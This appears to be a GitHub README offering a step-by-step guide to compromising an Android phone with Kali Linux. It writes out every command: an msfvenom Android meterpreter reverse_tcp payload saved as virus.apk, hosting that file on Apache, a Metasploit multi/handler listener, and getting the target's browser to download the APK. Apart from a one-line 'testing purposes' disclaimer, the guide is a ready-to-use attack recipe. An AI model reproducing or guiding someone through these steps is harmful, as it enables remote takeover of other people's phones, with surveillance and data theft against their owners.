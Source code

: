 # How to hack a smarphone with Kali Linux (complete guide)
Kali linux is an OS that is focused on pentesting and ethical hacking. It if totally free and open source. In this guide you will see how you can test to gain acces to a phone with some pentesting tools. ONLY USE THIS FOR TESTING PURPOSES. **There is a file uploaded with all the configuration done. You can download it and just run the msfconsole comands at the end of the guide.**

**More info at https://www.kali.org/**

## 1) Creating the maliciuos file
The first thing that we need to make, is to create a malicious file with the correct parameters as for making a connection between our computer and the affected device.
#### `msfvenom -p android/meterpreter/reverse_tcp LHOST=(ENTER YOUR IP ADRESS WITHOUT THE BRACKETS) LPORT=8080  R> virus.apk`

**You can know th IP adress of your device by entering ```ifconfig```**

## 2) Uploading the file to an apache server.
This method consists in uploading the file to a server that is hosted by the linux machine. You can make shure if it is running by entering this command.

```sudo service apache2 status```

**If you see as an output that it is offline, then turn it on with the following command.**

```sudo service apache2 start```

### 3) Copying the files to the apache online server
Now, we need to copy the malicoius file to the apache directory, in order for making it accesible on the internet.

```scp virus.apk /var/www/html/```

 **Verify if the file has been uploaded with this command**
 
 ```cd /var/www/html/ & ls```
 
 ## 4) Setting up the msfconsole
 
 Now we need to set up a listener in order for capturing any activity signals from a victim. In order to do so, enter the following commands.
 
 **Start the console** ```msfconsole```
 
 **Start the multi handler** ```use multi/handler```
 
 **Set the payload** ```set PAYLOAD android/meterpreter/reverse_tcp```
 
 **Set the Host IP** ```set LHOST (THE IP ADRESS USED BEFORE WITHOUT THE BRACKETS)```
 
 **Set the port** ```set LPORT 8080```
 
 **Start the process!** ``exploit``
 
 ## 5) Downloading the malicous file in the target device.
 
 Open the phones browser, and type the ip adress as you did before followed by this ```/virus.apk```
 
 **The link should look something like this; 192.168.0.152/virus.apk**

## **The process is finally done. You can now try atacking the phone with the console. Type ```help``` to list all the commands aviable**

